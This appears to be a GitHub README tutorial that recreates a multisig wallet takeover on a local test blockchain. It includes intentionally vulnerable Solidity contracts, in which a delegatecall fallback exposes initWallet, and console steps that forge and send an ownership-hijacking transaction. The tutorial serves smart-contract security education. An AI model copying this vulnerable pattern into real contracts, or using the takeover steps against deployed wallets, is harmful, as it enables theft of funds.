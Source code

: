 # Multi-Sig-Wallet-Attack
Simplified recreation of the multisig wallet hack.

#### This command is going to set up a new project with Truffles directory structure. 

```bash
$ truffle init
```

#### Initialise a package.json file.

```bash
$ npm init -y
```

#### This package we install is to help create transactions.

```bash
$ npm i -S ethereumjs-tx
```

#### Creating a couple files that will store our contracts in.

```bash
$ touch contracts/Wallet.sol
$ touch contracts/WalletLibrary.sol
```

#### Creating a file for our deployment script.

```bash
$ touch migrations/2_deploy_wallets.js
```

#### Wallet.sol content.

```javascript
pragma solidity ^0.4.6;

contract Wallet {
    address public owner;
    address public _walletLibrary;

    function Wallet(address libAddress, address _owner) public {
        _walletLibrary = libAddress;
        _walletLibrary.delegatecall(bytes4(keccak256("initWallet(address)")), _owner);
    }

    function withdraw(uint amount) public returns (bool success) {
        return _walletLibrary.delegatecall(bytes4(keccak256("withdraw(uint)")), amount);
    }

    function () payable {
        _walletLibrary.delegatecall(msg.data);
    }
}
```

#### WalletLibrary.sol content.

```javascript
pragma solidity ^0.4.6;

contract WalletLibrary {
    address owner;

    function initWallet(address _owner) {
        owner = _owner;
    }

    function changeOwner(address _newOwner) external {
        if (msg.sender == owner) {
            owner = _newOwner;
        }
    }

    function () payable {}

    function withdraw(uint amount) external returns (bool success) {
        if (msg.sender == owner) {
            return owner.send(amount);
        } else {
            return false;
        }
    }
}
```

#### 2_deploy_wallets.js content.

```javascript
const WalletLibrary = artifacts.require("./WalletLibrary.sol");
const Wallet = artifacts.require("./Wallet.sol");

module.exports = function(deployer, network, accounts) {
  deployer
    .deploy(WalletLibrary)
    .then(() =>
      deployer.deploy(Wallet, WalletLibrary.address, accounts[0])
    );
};
```

#### truffle.js content.

```javascript
module.exports = {
  networks: {
    development: {
      host: "127.0.0.1",
      port: 8545,
      network_id: "*",
    }
  }
};
```

#### Starting our blockchain.

```bash
$ ganache-cli -u 0 
```

#### Deploy our contracts.

```bash
$ truffle migrate
```

#### Console for our blockchain client.

```bash
$ truffle console
```

#### Deployed contract instance.

```bash
truffle(development)> Wallet.deployed().then(w => wallet = w)
```

#### Check to see who the wallet owner is.

```bash
truffle(development)> wallet.owner.call()
```

## Now we'll start our attack

#### This give us the first 4 bytes of the hashed method for the method_id.

```bash
truffle(development)> data = web3.sha3('initWallet(address)').substring(0, 10)
```

#### Then we pass the param to our function. Params and variables are expected to be 32bytes by the EVM.

```bash
truffle(development)> data += '0'.repeat(24) + web3.eth.accounts[1].substring(2)
```

#### Now we're going to create the attack transaction.

```bash
truffle(development)> txParams = { 
  to: wallet.address, 
  from: web3.eth.accounts[1],
  gasPrice: web3.toHex(30000),
  gas: web3.toHex(1000),
  data: data,
  nonce: '0x0',
}
```

#### Import the Ethereumjs-tx package.

```bash
truffle(development)> EthTxt = require('ethereumjs-tx')
```

#### Create a new transaction instance.

```bash
truffle(development)> tx = new EthTxt(txParams)
```

#### Now will get our privateKey to sign the attack transaction.

```bash
truffle(development)> privateKey = Buffer.from(‘PRIVATE_KEY_OF_ATTACKER_ADDRESS’, ‘hex’)
```

#### Now we will sign the transaction with our private key.

```bash
truffle(development)> tx.sign(privateKey)
```

#### Now we will sign the transaction using our privateKey and transaction instance

```bash
truffle(development)> web3.eth.sendRawTransaction(`0x${tx.serialize().toString('hex')}`)
```

#### Lets take a look at our owner.

```bash
truffle(development)> wallet.owner.call()
```

#### Now we can see that the attacker has successfully set themselves as the owner, giving them complete control over the wallet and all of its functionality. Done!

